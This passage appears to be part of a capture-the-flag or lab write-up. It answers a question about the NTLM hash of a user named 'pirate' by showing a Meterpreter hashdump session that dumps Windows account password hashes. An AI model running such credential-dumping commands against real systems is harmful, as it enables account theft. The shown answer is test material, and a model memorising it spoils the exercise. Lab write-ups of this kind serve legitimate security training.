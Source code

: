 ### Question 3:
What is the NTLM hash of the password of the user "pirate"?

**Answer:** 8ce9a3ebd1647fcc5e04025019f4b875

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
pirate:1001:aad3b435b51404eeaad3b435b51404ee:8ce9a3ebd1647fcc5e04025019f4b875:::
meterpreter > 
```

